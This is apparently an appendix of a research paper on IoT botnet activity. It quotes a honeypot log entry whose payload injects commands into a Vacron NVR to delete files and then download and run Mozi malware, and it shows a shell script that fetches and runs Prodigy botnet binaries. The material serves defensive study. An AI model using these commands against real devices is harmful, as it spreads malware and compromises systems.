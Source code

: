 \begin{appendices}
\newpage

\section{Example Bad Packets Honeypot Result}
\label{appendix_a2}
\begin{lstlisting}[caption={Example Bad Packets Honeypot Result, represented in JSON format.}]
{
    "event_id": "fa3d87579d641...",
    "source_ip_address": "127.0.0.1",
    "country": "CN",
    "user_agent": "",
    "payload": "GET /board.cgi?cmd=cd /tmp;rm -rf *;wget http://127.0.0.1:58262/Mozi.a;chmod 777 Mozi.a;/tmp/Mozi.a varcron HTTP/1.0",
    "post_data": "",
    "target_port": 8080,
    "protocol": "tcp",
    "tags": [
        {
            "cve": "",
            "category": "IoT",
            "description": "Vacron NVR RCE"
        }
    ],
    "event_count": 1,
    "first_seen": "2021-01-29T22:13:02Z",
    "last_seen": "2021-01-29T22:13:02Z"
}
\end{lstlisting}

\section{Example Multi-Binary Payload Bash Script}
\label{appendix_a3}
\begin{lstlisting}[caption={An example bash-script used for botnet propagation. Once executed, the script will attempt to download and run 4 binaries of varying architectures.}]
#!/bin/sh
cd /tmp;wget http://[redacted]/Prodigy.arm4;chmod +x Prodigy.arm4;./Prodigy.arm4 ipcam
cd /tmp;wget http://[redacted]/Prodigy.arm5;chmod +x Prodigy.arm5;./Prodigy.arm5 ipcam
cd /tmp;wget http://[redacted]/Prodigy.arm6;chmod +x Prodigy.arm6;./Prodigy.arm6 ipcam
cd /tmp;wget http://[redacted]/Prodigy.arm7;chmod +x Prodigy.arm7;./Prodigy.arm7 ipcam
\end{lstlisting}

\newpage


\end{appendices}
